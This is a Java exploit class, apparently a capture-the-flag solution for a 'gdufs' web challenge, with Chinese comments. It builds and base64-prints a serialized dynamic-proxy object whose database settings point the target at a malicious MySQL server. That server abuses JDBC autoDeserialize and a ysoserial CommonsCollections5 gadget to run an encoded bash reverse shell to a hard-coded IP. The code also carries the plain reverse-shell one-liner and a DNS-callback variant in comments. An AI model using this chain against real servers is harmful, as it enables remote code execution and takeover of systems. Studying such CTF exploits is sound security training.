 ```java
package gdufs.challenge.web;

import gdufs.challenge.web.invocation.InfoInvocationHandler;
import gdufs.challenge.web.model.DatabaseInfo;
import gdufs.challenge.web.model.Info;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws Exception{
        DatabaseInfo databaseInfo = new DatabaseInfo();
        databaseInfo.setHost("49.232.206.37");
        databaseInfo.setPort("4567");//恶意mysql服务端端口
        ///bin/bash -i >& /dev/tcp/vps/7015 0>&1   反弹shell监听的端口
//        databaseInfo.setUsername("yso_URLDNS_http://hud0xf.ceye.io");
        databaseInfo.setUsername("yso_CommonsCollections5_bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ5LjIzMi4yMDYuMzcvMjM0NTYgMD4mMQ==}|{base64,-d}|{bash,-i}");
        databaseInfo.setPassword("123&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor");

        //System.out.println(databaseInfo.getUsername());
        Method getUsernameMethod = databaseInfo.getClass().getMethod("getUsername");
        String a =(String) getUsernameMethod.invoke(databaseInfo);
        //System.out.println(a);
//        Class c = Class.forName("gdufs.challenge.web.invocation.InfoInvocationHandler");
        //创建一个InfoInvocationHandler类对象
        InfoInvocationHandler infoInvocationHandler = new InfoInvocationHandler(databaseInfo);
        //然后使用动态代理，我们代理的是databaseInfo，所以就要获取其类加载器和接口
        Info info =(Info) Proxy.newProxyInstance(databaseInfo.getClass().getClassLoader(), databaseInfo.getClass().getInterfaces(), infoInvocationHandler);
        //序列化部分，参考MainController.java
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(info);
        oos.close();
        //将序列化结果输出
        //这里的输出语句要注意不要使用System.out.println();
        System.out.printf(new String(Base64.getEncoder().encode(baos.toByteArray())));

    }

}
```
